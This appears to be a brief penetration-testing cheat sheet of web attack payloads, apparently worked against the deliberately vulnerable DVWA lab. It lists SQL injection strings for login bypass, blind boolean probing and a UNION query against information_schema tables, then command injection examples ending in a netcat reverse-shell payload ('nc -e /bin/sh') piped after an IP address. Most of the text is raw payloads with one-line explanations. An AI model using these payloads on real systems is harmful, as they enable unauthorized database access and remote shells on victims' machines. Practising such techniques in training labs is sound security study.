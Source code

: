 ### Testing for SQLi
````
admin' #
````

````
' or 1=1--'
````


### Testing for Blind Query SQLi
* Blind SQLi queries the database for true and false questions and evaluates the responses from the web server.
````
1' and 1=1
1' order by 1
````

* The following will execute, although the password is wrong. This is because or 1=1 is always a true statement.
````
aaa' or 1=1 #
````



### Testing for Union Query SQLi
* Also attempt to inject without the quote. Stricter security protocols will be looking for illegal characters that will even pick up encodings
````
1' union select table_name, 2 from information_schema.tables
````

### Command Injection
* This test was done via DVWA on medium security setting

* Pipe commands from the former into the latter
````
ls | pwd
````

* This method can be used to get a shell on a victim
````
192.168.1.111 | nc -e /bin/sh 192.168.1.111 8080
````


